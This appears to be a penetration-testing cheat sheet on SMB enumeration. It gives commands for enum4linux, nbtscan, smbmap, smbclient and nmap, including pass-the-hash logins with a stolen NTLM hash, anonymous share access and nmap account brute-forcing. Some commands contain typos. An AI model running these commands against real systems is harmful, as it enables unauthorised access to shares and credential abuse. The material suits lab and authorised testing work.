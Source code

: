 # SMB Scanning
This module contains method sof gathering information from targets that have Samaba, or the Windows sharing service (SMB) enabled.
## Enum4LINUX
[Enum4Linux](https://github.com/portcullislabs/enum4linux) can be used to gather information from a target system via the SMB protocol as so,
```
root@attacker-machine:~# enum4linux (TARGET IP)
```

## NBTScan
[NBTScan](http://www.unixwiz.net/tools/nbtscan.html) can be used to gather information from a target system via the SMB protocol as so,
```
root@attacker-machine:~# nbtscan (TARGET IP ADDRESS)
```

## SMBMap
[SMBMap](https://github.com/ShawnDEvans/smbmap) is ool that can gather information about a remote shared FS via the SMB protocol. The basic syntax for`smbmap` is as follows,
```
root@attacker-machine:~# smbmap -H (TARGET IP ADDRESS)
```
But, if you have access to an NTLM hash, let's use `0B186E661BBDBDFFFFFFFFFFF8B9FD8B` for example, you can append the common Windows NULL string along with a colon, `aad3b435b51404eeaad3b435b51404ee` to it as,
```
aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B
```
and pass along the username, let's say `user123` for example, of the credentials to get more SMB map information like so,
```
root@attacker-machine:~# ./smbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on (TARGET IP ADDRESS)...
[+] IP: (TARGET IP ADDRESS):445	Name: ypuffy.hackthebox.htb                             
	Disk                                                  	Permissions
	----                                                  	-----------
	user123's Files                                    	READ, WRITE
	IPC$                                              	NO ACCESS
'
```
## SMBClient
[MBClient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) very bad software and I believe it's because there are too many variables at stake when trying to successfully use it. Your results may vary, and please do not take any authentication or listing errors as true. Test your enumerated credentials and data using other tools as well. This section describes methods for mounting and listing directories in Samba (LINUX)/Windows shares.

Sometimes, it is required to specify the SMB version number using the `-m smb(n)` argument for the NT service to allow a connection.

### Target information
Attempt to map the share without any credentials (a NULL session)
```
root@attacker-machine:~# smbclient -N -L (TARGET IP)
```
### Mounting shares
To mount a share without knowing any valid users (anonymous/guest login),
```
root@attacker-machine:~# smbclient "\\\\(TARGET IP)\\IPC\$\\" -N
```
To mount a share with an enumerated username,
```
root@attacker-machine:~# smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER)
```
To mount a share with a username and stolen NTLM hash,
```
root@attacker-machine:~# smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)
```
e.g.
```
root@attacker-machine:~# smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
```

### File Transfers
To get a file from the target server,
```
smb> get "filename with or without spaces.txt"`
```
## NMAP
The NMAP Scripting Engine (NSE) can be used to brute-force accounts on the server,
```
root@attacker-machine:~# nmap --script smb-brute.nse -p445 (TARGET IP ADDRESS)
```
Another Nmap NSE script tyhat we can try will attempt to gather information on SMB NULL sessions and users as so,
```
root@attacker-machine:~# nmap -p 139.445 --script smb-enum-users (TARGET IP ADDRESS)
